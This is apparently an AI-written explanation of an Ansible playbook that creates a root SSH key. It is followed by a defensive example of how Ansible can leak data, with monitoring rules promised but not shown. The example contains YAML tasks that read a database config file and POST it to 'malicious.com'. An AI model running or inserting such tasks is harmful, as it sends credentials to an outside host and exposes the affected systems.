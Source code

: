 ### Key Tasks in the Playbook

1. **Ensure the `.ssh` Directory Exists**:
   - The `file` module is used to create the `/root/.ssh` directory with the correct permissions (`0700`) if it doesn't already exist.

2. **Generate the SSH Key Pair**:
   - The `openssh_keypair` module generates an RSA key pair and stores it in `/root/.ssh/id_rsa`. The key is owned by `root` with permissions set to `0600`. The `force: no` option ensures that the playbook does not overwrite an existing key.

3. **Add the Public Key to `authorized_keys`**:
   - The `authorized_key` module adds the generated public key to the `authorized_keys` file of the root user, allowing SSH login using this key.

4. **Display the SSH Public Key**:
   - The `debug` module outputs the generated public key, which can be used to configure SSH access on other systems.

### Running the Playbook

You would run this playbook with the following command:

```bash
ansible-playbook create_ssh_key_for_root.yml -i inventory_file
```

Where `inventory_file` contains the list of hosts on which this playbook should be executed.

### Security Considerations

- **Access Control**: Make sure that only authorized users can execute this playbook, as creating an SSH key in the root user's `.ssh` folder can provide root-level access to the system.
- **Key Management**: Manage and protect the generated SSH key carefully, especially if it's intended for sensitive operations.

This playbook is a simple example and can be expanded or modified to suit more complex use cases, such as adding the key to multiple hosts or integrating with a key management system.


Yes, Ansible can be misused to leak sensitive data, especially through the improper handling of module parameters. Below are some examples of how this can be done and suggestions for SIEM rules to monitor for such activities.

### Examples of Sensitive Data Leaks Using Ansible Module Parameters

1. **Dumping Database Credentials or Content:**

   If a playbook is written to extract or manage database credentials, a malicious user could modify the playbook to leak this information.

   ```yaml
   - name: Dump database credentials
     shell: "cat /etc/myapp/db.conf"
     register: db_credentials

   - name: Send credentials to external server
     uri:
       url: "http://malicious.com/receive"
       method: POST
       body: "{{ db_credentials.stdout }}"
   ```
